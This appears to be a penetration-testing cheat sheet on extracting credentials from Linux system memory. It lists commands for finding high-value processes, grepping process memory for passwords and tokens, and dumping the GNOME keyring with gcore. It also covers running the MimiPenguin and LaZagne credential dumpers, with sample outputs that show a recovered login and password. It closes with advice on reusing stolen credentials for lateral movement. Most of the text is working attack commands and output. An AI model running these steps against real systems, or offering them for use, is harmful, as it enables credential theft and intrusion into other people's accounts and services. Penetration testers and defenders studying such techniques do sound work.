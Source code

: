 ### Technique Name:

Extracting Credentials from System Memory
### Summary:

Sensitive data such as plaintext passwords, passphrases, and tokens can temporarily reside in system memory. By dumping and analyzing memory of running processes or the entire system, attackers may uncover credentials used by applications, services, or users.
### Conditions:

- Sudo/root privileges are typically required for full memory access.    
- Useful especially on systems running GUI environments or background services like GNOME Keyring, SSH agents, or web browsers.
### Enumeration:
#### 1. List Running Processes

```bash
ps aux
```
#### 2. Identify High-Value Targets

Look for:

- Browsers (`firefox`, `chrome`)    
- SSH agents
- GUI sessions (GNOME, KDE)
- Password managers
#### 3. Analyze Memory of Specific Process (as root)

```bash
strings /proc/<PID>/mem 2>/dev/null | grep -iE 'pass|user|login|token|key'
```
### Exploitation:
#### 1. Using MimiPenguin

Tool for extracting login credentials from memory in GUI-based environments.

Example:

```bash
git clone https://github.com/huntergregal/mimipenguin
cd mimipenguin
sudo ./mimipenguin.sh
```

Output:

```text
[SYSTEM - GNOME] cry0l1t3:WLpAEXFa0SbqOHY
```
#### 2. Using LaZagne

LaZagne includes memory parsing routines and extracts credentials from a variety of sources including browsers, databases, SSH, and system services.

Example:

```bash
python2 laZagne.py all
```

Output:

```text
Login: cry0l1t3
Password: WLpAEXFa0SbqOHY
```
#### 3. Manual Gcore Dump of Process

```bash
pidof gnome-keyring-daemon
gcore <PID>
strings core.<PID> | grep -iE 'pass|user|login'
```
### Post-Exploitation:

- Reuse any recovered passwords or tokens for lateral movement, SSH access, database logins, etc.    
- If browser credentials were found, attempt further web app exploitation.
- Check for sessions or cached tokens usable for impersonation.
